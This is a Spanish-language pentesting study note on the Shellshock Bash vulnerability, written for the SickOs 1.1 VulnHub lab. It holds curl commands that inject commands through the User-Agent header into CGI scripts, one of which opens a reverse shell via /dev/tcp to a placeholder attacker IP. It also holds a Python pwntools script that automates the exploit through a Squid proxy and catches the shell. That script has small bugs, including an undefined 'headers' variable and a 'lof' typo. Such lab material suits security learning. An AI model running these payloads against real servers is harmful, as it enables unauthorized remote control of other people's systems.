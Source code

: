 # Ataque ShellShock

Tags: #ShellShock #OWASP #Explotacion 

Un ataque **Shellshock** es un tipo de ataque informático que aprovecha una vulnerabilidad en el **intérprete de comandos Bash** en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática.

Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar programas maliciosos, etc.

La vulnerabilidad Shellshock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de shell. El problema radica en la forma en que Bash maneja las variables de entorno. Los atacantes pueden inyectar código malicioso en estas variables de entorno, las cuales Bash ejecuta sin cuestionar su origen o contenido.

Los atacantes pueden explotar esta vulnerabilidad a través de diferentes vectores de ataque. Uno de ellos es a través del **User-Agent**, que es la información que el navegador web envía al servidor web para identificar el tipo de navegador y sistema operativo que se está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

A continuación se proporciona el enlace directo para la descarga de la máquina ‘**SickOs 1.1**‘. Esta máquina corresponde a la misma que estuvimos enumerando en la clase anterior, solo que en este caso procederemos con la fase de explotación haciendo uso de esta técnica:

-   **SickOs 1.1**: [https://www.vulnhub.com/entry/sickos-11,132/](https://www.vulnhub.com/entry/sickos-11,132/)


## Comandos

Si encontramos un dir llamado **/cgi-bin/** lo mas probables es que podamos testear un ShellShock. 
En esos directorios debemso de buscar archivos **pl, sh, cgi,** asi como tambien sin extension. 

* [ShellShock-Attack](https://blog.cloudflare.com/inside-shellshock/)

```bash 
curl -s http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; /usr/bin/whoami" 

	# s = Silence 
	# H = Cabecera para el ataque de ShellShock
	# Ruta del comando que quieres ejecutar y lo ves con 'which' -> which whoami


# Si al momento de ejecutar el comando anterior no nos reporta el comando, debemos de colocar un echo antes o hasta dos antes.
curl -s http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; echo; /usr/bin/id" 

	# Podemos colocar la ruta de cualquier comando, esperando a que la maquina tenga ese comando instalado. 


# Podemos usar el ShellShock para ganar acceso a la maquina.
curl -s http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'" 

	# Otra ruta del bash por si no funciona es '/usr/bin/bash' 
```


Haremos que al momento de ejecutar el programa, podamos tener una ReverShell al instante en nuestra consola.
```python
# Primero nos debemos crear un archivo python 

❯ nano ShellShock.py

#!/usr/bin/python3

import requests
import signal
import sys
import threading 
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/cgi-bin/status"
squid_proxy = {'http': 'http://192.168.68.1:3128'}
lport = 443

def shellshock_attack():
	header = {'User-Agent': "() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'"}
	r = requests.get(main_url, headers=headers, proxies=squid_proxy)

if __name__ == '__main__':
	try:
		threading.Thread(target=shellshock_attack, args=()).start()
	except Exception as e:
		log.error(str(e))
	
	shell = listen(lport, timeout=20).wait_for_connection()
	
	if shell.sock is None:
		lof.failure("No se pudo establecer la conexion")
		sys.exit(1)
	else: 
		shell.interactive()
```